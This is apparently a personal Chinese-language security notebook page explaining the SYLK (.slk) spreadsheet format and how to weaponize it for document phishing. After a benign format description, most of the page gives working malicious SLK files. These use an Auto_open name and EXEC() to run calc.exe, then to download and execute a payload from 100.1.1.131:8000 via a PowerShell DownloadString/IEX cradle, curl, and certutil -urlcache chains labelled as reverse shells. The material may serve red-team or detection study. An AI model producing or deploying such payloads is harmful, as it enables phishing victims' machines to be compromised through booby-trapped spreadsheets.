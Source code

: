 ```yaml
---
date: 2024-07-11
---
```


# SLK

## 概述

> [如何在没有 Excel 的情况下打开 SLK 文件 (filext.com)](https://filext.com/zh/wenjian-kuozhan-ming/SLK)
>
> ---
>
> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

SLK 文件大多属于 Microsoft 的 Excel。 SLK 文件是符号链接文件，它是由 Microsoft 开发并主要由 Excel 使用的格式。该文件格式仅使用可显示的 ANSI 字符来存储数据，并允许其他应用程序轻松处理其内容。

在2007年XLSX引入之前且XLS文件是私有文件格式的时候，SLK是XLS的开放格式替代品，对于最终用户来说，SLK文件看起来像一个Excel文档。

- 主要用途: SLK文件格式主要用于程序之间（如微软 Excel 和 Lotus 1-2-3）传输数据。由于这些文件仅使用可显示的 ANSI 字符，因此程序和用户都很容易解释它们，并且可以使用简单的文本编辑器（例如记事本）查看或修改。
- 预览与编辑软件: 虽然该格式主要由 Microsoft Excel 使用，但其他程序（例如 OpenOffice、LibreOffice 和 Gnumeric）也支持该文件格式的变体。
- 文件结构：SLK 文件中的数据以纯文本形式存储，并以分号分隔的值进行组织。要在单元格中包含文字分号，可以使用前面的分号对其进行转义，这将导致字符被视为单元格的一部分，而不是文件结构的一部分。

例如:

```mathematica
ID;P
C;X1;Y1;K"Header1"
C;X2;Y1;K"Header2"
C;X1;Y2;K"Data1"
C;X2;Y2;K"Data2"
E
```

- `ID;P` 是文件的标识符和参数
- `C;X1;Y1;K"Header1"` 表示第1列第1行的单元格内容是"Header1"
  - `C` - `Cell` 表示这是一行单元格数据
  - `X1` 表示单元格所在的列, 第 1 列
  - `Y1` 表示单元格所在的行, 第 1 行
  - `K"Header1"`：表示单元格的内容，`K` 是 "Konstant"（常量）的缩写，`"Header1"` 是该单元格的实际内容，即文字 "Header1"
- `C;X2;Y1;K"Header2"` 表示第2列第1行的单元格内容是"Header2"
- `C;X1;Y2;K"Data1"` 表示第1列第2行的单元格内容是"Data1"
- `C;X2;Y2;K"Data2"` 表示第2列第2行的单元格内容是"Data2"
- `E` 表示文件结束

---

## 调起计算器

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("calc.exe")
C;X1;Y102;K0;EHALT()
E
```

- `NN;NAuto_open;ER101C1;KOut Flank;F`
  - **NN**：名称定义行，定义一个名称及其范围
  - **N**：后面的 `Auto_open` 表示名称。此处定义了一个名称 `Auto_open`
  - **ER101C1**：范围定义，表示范围从 `R101C1` 开始，即第101行第1列。前面的 `E` 可能表示扩展的范围定义
  - **KOut Flank**：为名称 `Auto_open` 赋值，值为 `Out Flank`
  - **F**：标志，可能用于特定标识或格式设置
- `C;X1;Y101;K0;EEXEC("calc.exe")`
  - **K0**：表示单元格的内容，这里是数值 `0`
  - **EEXEC("calc.exe")**：执行命令 `EXEC("calc.exe")`，表示在读取和执行此SLK文件时将运行 `calc.exe`，即打开计算器程序
-  `C;X1;Y102;K0;EHALT()`
  - **K0**：表示单元格的内容，这里是数值 `0`。
  - **EHALT()**：执行命令 `HALT()`，表示停止或结束操作。这通常用于结束脚本或宏的执行。

![image-20240708153941228](http://cdn.ayusummer233.top/DailyNotes/202407081539970.png)

---

## 反弹Shell

> [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

`http://100.1.1.131:8000/powershell_curl_reverse_shell.txt`: 

```powershell
curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe;./msedge.exe
```

`slk_reverse_shell.slk`:

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("powershell.exe -nop -c IEX((new-object Net.WebClient).DownloadString('http://100.1.1.131:8000/download/powershell_curl_reverse_shell.txt'))")
C;X1;Y102;K0;EHALT()
E
```

> PS: 无法成功执行此命令, 原因未知
>
> PS: 命令替换成 `powershell.exe -nop -c IEX('calc.exe')` 是可以正常弹出计算器的

---

`shell.cmd`

```cmd
certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete
```

`slk_reverse_shell_shell_cmd_file_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:/temp/shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

---

`slk_reverse_shell_certutil_win1252.slk`

```mathematica
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("cmd.exe /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete")
C;X1;Y102;K0;EHALT()
E
```

![image-20240708190618861](http://cdn.ayusummer233.top/DailyNotes/202407081906201.png)

![image-20240708190649128](http://cdn.ayusummer233.top/DailyNotes/202407081906298.png)

---

## 参考材料

> [SLK 文档钓鱼 - Google Search](https://www.google.com/search?q=SLK+文档钓鱼&sca_esv=93393d72ee4371e2&biw=1912&bih=972&sxsrf=ADLYWIKrEcaS-mRNnan1YdFHckVXFvvNkA%3A1720173801763&ei=6cSHZqSlLqmnuvQPua2uoA4&ved=0ahUKEwjkvZ_j0o-HAxWpk44IHbmWC-Q4FBDh1QMIDw&uact=5&oq=SLK+文档钓鱼&gs_lp=Egxnd3Mtd2l6LXNlcnAiEFNMSyDmlofmoaPpkpPpsbwyCBAhGKABGMMESONEUNg7WMxBcAJ4AJABAJgBwAKgAagQqgEFMi01LjK4AQPIAQD4AQGYAgOgArsCwgIKEAAYgAQYsAMYDZgDAIgGAZAGAZIHBTIuMC4xoAfJDQ&sclient=gws-wiz-serp)

- [Macos Office攻防 | YoungRichOG](https://youngrichog.github.io/2021/06/16/Macos-Office攻防/)
- [关于文档钓鱼的学习 | 藏青's BLOG (cangqingzhe.github.io)](https://cangqingzhe.github.io/2020/09/02/关于文档钓鱼的学习/)
- [【技术分享】如何绕过受保护视图发起钓鱼攻击-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/87013)
- [安天引擎助力全线产品精准检测SLK格式威胁 (antiy.com)](https://www.antiy.com/response/20200701.html)

---

